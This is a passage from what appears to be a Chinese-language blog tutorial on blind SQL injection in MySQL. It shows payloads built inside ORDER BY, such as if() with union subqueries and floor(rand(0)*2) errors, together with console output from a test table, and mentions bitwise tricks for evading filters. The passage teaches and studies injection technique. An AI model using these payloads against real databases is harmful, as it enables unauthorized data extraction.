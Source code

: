 再或者我们还能在 order by 后面构造

```
mysql&gt; select 1 from admin order by if(1,1,(select 1 union select 2)) limit 0,3;
+---+
| 1 |
+---+
| 1 |
| 1 |
+---+
2 rows in set (0.09 sec)

mysql&gt; select 1 from admin order by if(0,1,(select 1 union select 2)) limit 0,3;
ERROR 1242 (21000): Subquery returns more than 1 row
```

这里产生报错是因为，Union 查询返回的是两行，这两行都可以作为 order by 的依据，然后系统不知道该选哪一个，于是产生了错误。if 的第一个参数为真的时候不会产生错误，为假的时候产生错误，通过这种方式我们就可以判断出我们构造的条件语句的正确与否。

写到这里其实我还想起了一个比较经典的报错方式，就是使用 `floor(rand(0)*2)` 配合 `group by count(*)` 进行报错的方式，虽然之前这个用在报错注入但这里正好可以利用这个进行报错，我们来测试一下

```
select 1 from admin order by if(1,1,(select count(*) from mysql.user group by floor(rand(0)*2))) limit 0,3;

mysql&gt; select 1 from bsqli order by if(1,1,(select count(*) from mysql.user group by floor(rand(0)*2))) limit 0,3;
+---+
| 1 |
+---+
| 1 |
| 1 |
+---+
2 rows in set (0.39 sec)

mysql&gt; select 1 from bsqli order by if(0,1,(select count(*) from mysql.user group by floor(rand(0)*2))) limit 0,3;
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
```

其实不光是这条语句，很多报错注入的语句也可以直接拿来替换（当然并不是全部，比如 select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x 这个 payload 似乎就不能成功），这里只是一个小小的例子而已，关于这个语句为什么会报错，其实还是一个和有意思的探究，有兴趣的同学可以看一下这篇文章 [传送门](https://www.cnblogs.com/xdans/p/5412468.html)

构造条件语句还有很多方式，这不同的数据库中是由细微差别的，下表列出了一些例子

[![](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SQL%E7%9B%B2%E6%B3%A815.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SQL%E7%9B%B2%E6%B3%A815.png)

### **3.高级案例**

这里我想讲的高级技巧就是 MySQL 数据库的位操作，所谓位操作就是将给定的操作数转化为二进制后，对各个操作数每一位都进行指定的逻辑运算，得到的二进制结果转换为十进制数后就是位运算的结果。在我的[一篇文章](http://www.k0rz3n.com/2019/01/30/SQL%20%E5%9F%BA%E7%A1%80%E8%AF%AD%E6%B3%95%E7%9A%84%E5%B0%8F%E6%80%BB%E7%BB%93/)中在最后的表格里面也列举了mysql 支持的位操作符，包括 | &amp; ^ &gt;&gt; &lt;&lt; ~ 这些字符的使用往往能让我们在被严格过滤的情况下柳暗花明。
